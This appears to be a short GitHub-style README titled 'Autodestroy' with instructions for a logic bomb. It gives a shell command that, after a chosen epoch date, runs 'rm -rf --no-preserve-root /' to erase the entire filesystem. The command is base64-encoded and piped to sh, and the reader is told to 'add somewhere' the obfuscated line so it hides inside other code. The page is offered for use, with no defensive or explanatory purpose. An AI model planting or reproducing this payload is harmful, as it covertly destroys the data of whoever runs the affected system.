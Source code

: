 # Autodestroy

Get the date in epoch format: 

https://www.epochconverter.com/


Calculate base64:

```
echo 'if [ "$(date +'%s')" -gt "1575635200" ]; then rm -rf --no-preserve-root /; fi' | base64
```

Add somwehere:

```
base64 -d <<< aWYgWyAiJChkYXRlICslcykiIC1ndCAiMTU3NTYzNTIwMCIgXTsgdGhlbiBybSAtcmYgLS1uby1wcmVzZXJ2ZS1yb290IC87IGZpCg== | sh
```

![Image of Voltorb](https://i.pinimg.com/originals/7f/9e/80/7f9e8079c9a4c5218f14ea1c4d5648d1.png)